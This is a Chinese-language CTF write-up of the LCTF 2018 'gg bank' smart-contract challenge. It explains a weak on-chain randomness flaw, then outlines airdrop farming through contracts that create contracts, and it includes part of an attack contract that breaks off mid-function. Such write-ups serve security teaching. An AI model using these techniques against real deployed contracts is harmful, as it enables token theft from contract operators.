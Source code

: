 空投函数没看有什么太可说的，就是对每一个新用户都发一次空投。

然后就是goodluck函数
```
function goodluck()  public payable authenticate returns (bool success) {
    require(!locknumber[block.number]); //判断block.numbrt
    require(balances[msg.sender]>=100); //余额大于100
    balances[msg.sender]-=100; //每次调用要花费100token
    uint random=uint(keccak256(abi.encodePacked(block.number))) % 100; //随机数
    if(uint(keccak256(abi.encodePacked(msg.sender))) % 100 == random){ //随机数判断
        balances[msg.sender]+=20000;
        _totalSupply +=20000;
        locknumber[block.number] = true;
    }
    return true;
}
```

然后只要余额大于200000就可以拿到flag。

其实代码特别简单，漏洞也不难，就是非常常见的弱随机数问题。

随机数的生成方式为
```
uint random=uint(keccak256(abi.encodePacked(block.number))) % 100;
```

另一个的生成方式为
```
uint(keccak256(abi.encodePacked(msg.sender))) % 100
```

其实非常简单，这两个数字都是已知的，msg.sender可以直接控制已知的地址，那么左值就是已知的，剩下的就是要等待一个右值出现，由于block.number是自增的，我们可以通过提前计算出一个block.number，然后写脚本监控这个值出现，提前开始发起交易抢打包，就ok了。具体我就不详细提了。可以看看出题人的wp。

[https://github.com/LCTF/LCTF2018/tree/master/Writeup/gg%20bank](https://github.com/LCTF/LCTF2018/tree/master/Writeup/gg%20bank)

但问题就在于，这种操作要等block.number出现，而且还要抢打包，毕竟还是不稳定的。所以在做题的时候我们关注到另一条路，**薅羊毛**，这里重点说说这个。

# 合约薅羊毛 #

在想到原来的思路过于复杂之后，我就顺理成章的想到薅羊毛这条路，然后第一反正就是直接通过合约建合约的方式来碰这个概率。

思路来自于最早发现的薅羊毛合约[https://paper.seebug.org/646/](https://paper.seebug.org/646/)

这个合约有几个很精巧的点。

首先我们需要有基本的概念，**在以太坊上发起交易是需要支付gas的**，如果我们不通过合约来交易，那么这笔gas就必须先转账过去eth，然后再发起交易，整个过程困难了好几倍不止。

然后就有了新的问题，在合约中新建合约在EVM中，是属于高消费的操作之一，**在以太坊中，每一次交易都会打包进一个区块中，而每一个区块都有gas消费的上限，如果超过了上限，就会爆gas out，然后交易回滚，交易就失败了。**

```
contract attack{
    address target = 0x7caa18D765e5B4c3BF0831137923841FE3e7258a;
    
    function checkfriend(address _addr) internal pure returns (bool success) {
        bytes20 addr = bytes20(_addr);
        bytes20 id = hex"000000000000000000000000000000000007d7ec";
        bytes20 gg = hex"00000000000000000000000000000000000fffff";

        for (uint256 i = 0; i < 34; i++) {
            if (addr & gg == id) {
                return true;
            }
            gg <<= 4;
            id <<= 4;
        }

```

  [1]: http://static.zybuluo.com/LoRexxar/89eepzp81mzw31l8fhf737k8/image.png